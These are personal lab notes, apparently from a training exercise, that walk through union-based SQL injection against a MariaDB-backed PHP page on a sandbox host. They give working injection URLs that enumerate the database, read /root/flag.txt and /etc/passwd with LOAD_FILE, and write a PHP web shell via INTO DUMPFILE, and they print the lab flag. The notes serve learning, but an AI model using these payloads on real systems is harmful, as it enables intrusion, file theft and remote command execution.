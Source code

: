 2. `OS{extraMileServerFlag}`
![[Pasted image 20240822153515.png]]
Checking to see if `secure_file_priv` is enabled, if it is enabled we are unable to write in certain places
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, @@GLOBAL.secure_file_priv--
```
nothing got returned so I believe we can write anywhere
![[Pasted image 20240822130432.png]]
going to work to try to write to `/var/lib/mysql-files`
Getting current user
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, current_user()--
```
![[Pasted image 20240822131254.png]]
Getting version
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, version()--
```
10.3.29-mariadb
![[Pasted image 20240822131423.png]]
going back to check out the `notes` table
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT NULL, column_name from information_schema.columns where table_schema = database() and table_name = 'notes'--
```
![[Pasted image 20240822131656.png]]
checking out `message` column
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT NULL, column_name from information_schema.columns where table_schema = database() and table_name = 'message'--
```
nothing.
![[Pasted image 20240822131727.png]]
this worked - just didnt catch it
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, "<?php passthru($_GET['cmd']); ?>" INTO DUMPFILE '/var/www/html/shelly.php';
```
![[Pasted image 20240822153158.png]]
testing to see if the current user has file writing privileges
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, privilege_type FROM information_schema.user_privileges WHERE privilege_type='FILE'--
```
This will attempt to find out if the current user has `FILE` privileges. If the query returns a result, it indicates that the user can write files.
![[Pasted image 20240822142010.png]]
Now how do I get a web shell?
`LOAD_FILE()` allows us to read the `/root/flag.txt` with a `UNION` statement but we need to figure out how to get a web shell to do the same thing
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, LOAD_FILE('/root/flag.txt')
```
`OS{extraMileServerFlag}`
![[Pasted image 20240822144139.png]]
Now we just need to find paths that exist and are writeable
loads `/etc/passwd` contents
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, LOAD_FILE('/etc/passwd')
```